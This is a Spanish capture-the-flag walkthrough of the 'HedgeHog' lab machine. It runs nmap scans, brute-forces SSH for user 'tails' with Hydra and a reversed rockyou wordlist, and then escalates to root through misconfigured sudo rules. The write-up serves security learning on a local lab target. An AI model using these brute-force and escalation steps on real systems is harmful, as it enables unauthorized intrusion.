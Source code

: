 ```yaml
---
description: >-
  ✍️ Autor: AnkbNikas  🔍 Dificultad: Muy Fácil  📅 Fecha de creación:
  10/11/2024
---
```


# HedgeHog

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (764).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (765).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (766).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web que nos muestra un posible usuario llamado **tails**.

<figure><img src="../../.gitbook/assets/image (767).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. Observamos que tarda demasiado por lo que debe ser de las últimas contraseñas del diccionario por lo que realizamos los siguientes comandos.\
Volteamos el diccionario.

```bash
tac /usr/share/wordlists/rockyou.txt > diccionario
```

Quitamos espacios.

```bash
cat diccionario | sed 's/ //g' > rockyou
```

Realizamos el ataque de fuerza bruta con **Hydra** con ese diccionario creado.

<figure><img src="../../.gitbook/assets/image (768).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **tails**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh tails@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (769).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

```
sudo -u sonic -i
```

Ahora somos el usuario **Sonic**.

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>

```bash
sudo -u root -i
```

Escalamos privilegios a **root**.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-11-15 a las 16.56.12.png" alt=""><figcaption></figcaption></figure>
